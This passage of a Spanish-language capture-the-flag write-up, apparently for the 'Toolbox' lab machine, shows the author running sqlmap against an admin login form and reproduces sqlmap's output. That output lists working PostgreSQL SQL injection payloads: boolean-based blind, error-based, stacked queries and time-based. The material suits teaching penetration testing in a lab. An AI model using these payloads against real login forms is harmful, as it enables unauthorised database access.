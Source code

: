 Hemos ganado acceso al panel admnistrativo

![](/assets/img/Toolbox/image_4.png)

Debido a que en el panel administrativo no he visto nada interesante, voy a usar `sqlmap` para que me `enumere` las `bases de datos`

```
# sqlmap -u https://admin.megalogistic.com/ --risk=3 --level=5 --random-agent --dbs --batch --data "username=*&password=*" 

[*] information_schema
[*] pg_catalog
[*] public
```

`Sqlmap` ha identificado estos tipos de `inyecciones sql`

```
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-3463' OR 6802=6802-- qZyo&password=

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: username=' AND 5733=CAST((CHR(113)||CHR(122)||CHR(113)||CHR(98)||CHR(113))||(SELECT (CASE WHEN (5733=5733) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(122)||CHR(120)||CHR(98)||CHR(113)) AS NUMERIC)-- nWHD&password=

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: username=';SELECT PG_SLEEP(5)--&password=

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: username=' AND 2020=(SELECT 2020 FROM PG_SLEEP(5))-- rxkb&password=
```

